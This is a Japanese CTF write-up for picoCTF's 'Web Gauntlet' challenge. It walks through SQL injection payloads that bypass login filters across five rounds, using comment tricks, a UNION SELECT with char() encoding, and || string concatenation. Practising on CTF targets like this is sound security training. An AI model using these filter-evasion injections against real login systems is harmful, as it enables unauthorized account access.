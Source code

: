 #### 作成日: 2021/01/09

# [Web] Web Gauntlet - 200 points

## Description:
Can you beat the filters? Login as admin  
http://jupiter.challenges.picoctf.org:19593/  
http://jupiter.challenges.picoctf.org:19593/filter.php  

## Hints:
- You are not allowed to login with valid credentials.  
- Write down the injections you use in case you lose your progress.  
- For some filters it may be hard to see the characters, always (always) look at the raw hex in the response.  
- sqlite  
- If your cookie keeps getting reset, try using a private browser window  

## Solution:
### Round 1/5
![round1.png](images/round1.png)
filter.phpに```Round1: or```と記載されており、ORが使えない。  
シングルクォートとハイフンを使用してusername以降の入力を無効化(コメントアウト)する。  
usename: ```admin'--```  
password: ```任意の文字(何でもいい)```  
を入力してSIGN INする。

### Round 2/5
filter.phpをリロードすると、Round1でサインインできたCookieが読み込まれ、```Round2: or and like = --```と表示される。  
OR文とハイフンによるコメントアウトが使用できないが、sqliteは```/**/```でのコメントアウトが可能なのでこれを試す。  
username: ```admin'/*```  
password: ```任意の文字```  

### Round 3/5
filter.phpに```Round3: or and = like > < --```と表示される。  
```/**/```でコメントアウトすることは可能なのでRound2と同様にサインインする。  
username: ```admin'/*```  
password: ```任意の文字```  

### Round 4/5
filter.phpに```Round4: or and = like > < -- admin```と表示される。  
今度は```admin```という文字列が使用できないためascii変換を行い、またSELECT文を追加してUNION句で統合させる。  
username: ```'/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*```  
password: ```任意の文字```  

ちなみに有効なSQLであれば問題ないので、下記でもサインイン自体は可能。  
username: ```'/**/union/**/select*from/**/users/**/limit/**/1/*```  
password: ```任意の文字```  

### Round 5/5
filter.phpに```Round5: or and = like > < -- union admin```と記載されている通り、今度はUNION句が使えない。  
```||(ダブルパイプ)```を用いて文字列を連結させ、下記によるサインインを試みる。  
username: ```'||'adm'||'in'/*```  
password: ```任意の文字```  

※Round 1/5からダブルパイプでサインインできると思われる。

![round6.png](images/round6.png)
サインイン後、filter.phpを確認しろと言われるのでfilter.phpをリロードすると、末尾にFLAGが表示される。
